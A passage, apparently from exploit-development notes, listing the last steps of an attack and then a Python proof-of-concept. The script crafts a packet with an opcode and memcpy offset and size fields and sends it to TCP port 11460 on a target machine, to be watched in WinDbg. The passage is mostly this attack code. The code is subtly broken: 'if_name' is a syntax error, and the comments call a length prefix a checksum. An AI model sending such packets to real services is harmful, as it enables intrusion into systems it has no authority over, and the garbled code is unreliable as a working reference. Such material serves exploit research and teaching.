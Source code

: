 3. provide actual data to be copied.

4. add required protocol checksum.

5. send crafted packet to port.

6. check confirmation in WinDbg.

```python
import socket
import sys
from struct import pack

# Initial command structure
buf = bytearray([0x41]*0xC)      # 12 bytes of padding for psAgentCommand
# Core command parameters
buf += pack("<i", 0x2000)        # Our target opcode (little-endian)
# Three memcpy operation specifications
buf += pack("<i", 0x0)           # First copy: source offset
buf += pack("<i", 0x100)         # First copy: size (256 bytes)
buf += pack("<i", 0x100)         # Second copy: source offset
buf += pack("<i", 0x100)         # Second copy: size
buf += pack("<i", 0x200)         # Third copy: source offset
buf += pack("<i", 0x100)         # Third copy: size
buf += bytearray([0x41]*0x8)     # Additional structure padding

# Payload data for memcpy operations
buf += b"A" * 0x100             # First block of data (256 'A's)
buf += b"B" * 0x100             # Second block (256 'B's)
buf += b"C" * 0x100             # Third block (256 'C's)

# Protocol required checksum
buf = pack(">i", len(buf)-4) + buf  # Big-endian length prefix

def main():
    if len(sys.argv) != 2:
        print("usage: %s <ip_address>\n" % (sys.argv[0]))
        sys.exit(1)

    server = sys.argv[1]
    port = 11460

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))

    s.send(buf)
    s.close()

    print("[+] packet sent! [+]")
    sys.exit(0)

if_name == "__main__":
    main()
```
